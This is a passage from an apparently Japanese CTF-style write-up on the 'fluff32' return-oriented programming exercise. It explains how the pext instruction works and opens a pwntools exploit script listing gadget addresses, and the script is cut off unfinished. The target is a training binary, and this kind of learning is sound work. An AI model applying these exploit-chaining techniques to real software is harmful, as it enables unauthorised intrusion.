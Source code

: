```

疑わしいガジェットってのがあったので、

そこの命令を見てみる。

![image-20211228105820775](/home/mizuiro/.config/Typora/typora-user-images/image-20211228105820775.png)

![image-20211228105800151](/home/mizuiro/.config/Typora/typora-user-images/image-20211228105800151.png)

完全にpextの説明を読み間違えていて、すんごい時間かかっていた。

俺ってすっごいバカ

二番目のregはデータで

三番目のregはmaskとなる。

あとはよしなにやってあげるとこんな感じのソルバが出来た

```
import textwrap
from pwn import *
from pwnlib.gdb import binary
from bitarray import bitarray


BINARY = './fluff32'
context.os = 'linux'
context.arch = 'i386'
context.binary = BINARY

#address
bss_address = 0x0804a020 #bss_address = 0x0804a020
print_file = 0x080483d0

#gadget
'''
 8048543:       89 e8                   mov    eax,ebp
 8048545:       bb ba ba ba b0          mov    ebx,0xb0bababa
 804854a:       c4 e2 62 f5 d0          pext   edx,ebx,eax
 804854f:       b8 ef be ad de          mov    eax,0xdeadbeef
 8048554:       c3                      ret
'''
pext = 0x08048543 # pext
pop_ebp = 0x080485bb #: pop ebp ; ret
pop_ecx_bswap_ecx = 0x08048558 # pop ecx ; bswap ecx ; ret
xchg_ecx_dl = 0x08048555 #: xchg byte ptr [ecx], dl ; ret         
pop_ecx_ebp = 0x08048524 #: pop ecx ; pop ebp ; lea esp, [ecx - 4] ; ret

# dl - 8bit
